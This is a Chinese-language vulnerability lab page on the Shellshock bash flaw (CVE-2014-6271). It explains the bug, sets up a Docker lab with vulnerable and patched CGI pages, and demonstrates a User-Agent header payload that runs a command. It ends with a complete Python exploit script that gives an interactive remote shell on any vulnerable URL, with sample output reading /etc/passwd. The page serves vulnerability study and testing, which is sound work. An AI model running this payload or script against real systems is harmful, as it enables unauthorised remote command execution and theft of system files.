


# Shellshock 破壳漏洞 CVE-2014-6271

## 漏洞描述

bash使用的环境变量是通过函数名称来调用的，导致漏洞出问题是以“(){”开头定义的环境变量在命令ENV中解析成函数后，Bash执行并未退出，而是继续解析并执行shell命令。核心的原因在于在输入的过滤中没有严格限制边界，没有做合法化的参数判断。

此前已验证Red Hat、 CentOS 、Ubuntu 、Fedora 、Amazon Linux 、OS X 10.10均拥有存在CVE-2014-6271漏洞的bash版本，以bash在各主流操作系统的广泛应用，此漏洞的影响范围包括但不限于大多数应用bash的Unix、Linux、Mac OS X，针对这些操作系统管理下的数据存在高危威胁。

## 环境搭建

Vulhub执行如下命令：

```
docker-compose up -d
```

服务启动后，有两个页面`http://your-ip:8080/victim.cgi`和`http://your-ip:8080/safe.cgi`。其中safe.cgi是最新版bash生成的页面，victim.cgi是bash4.3生成的页面。

## 漏洞复现

将payload附在User-Agent中访问victim.cgi：

```
User-Agent: () { foo; }; echo Content-Type: text/plain; echo; /usr/bin/id
```

命令成功被执行：



同样的数据包访问safe.cgi，不受影响：



## 漏洞EXP

```python
#!/usr/bin/python

# Successful Output:
# # python shell_shocker.py <VulnURL>
# [+] Attempting Shell_Shock - Make sure to type full path
# ~$ /bin/ls /
# bin
# boot
# dev
# etc
# ..
# ~$ /bin/cat /etc/passwd

from __future__ import print_function
from future import standard_library
standard_library.install_aliases()
from builtins import input
import sys, urllib.request, urllib.error, urllib.parse

if len(sys.argv) != 2:
        print("Usage: shell_shocker <URL>")
        sys.exit(0)

URL=sys.argv[1]
print("[+] Attempting Shell_Shock - Make sure to type full path")

while True:
        command=input("~$ ")
        opener=urllib.request.build_opener()
        opener.addheaders=[('User-agent', '() { foo;}; echo Content-Type: text/plain ; echo ; '+command)]
        try:
                response=opener.open(URL)
                for line in response.readlines():
                        print(line.strip())
        except Exception as e: print(e)

```

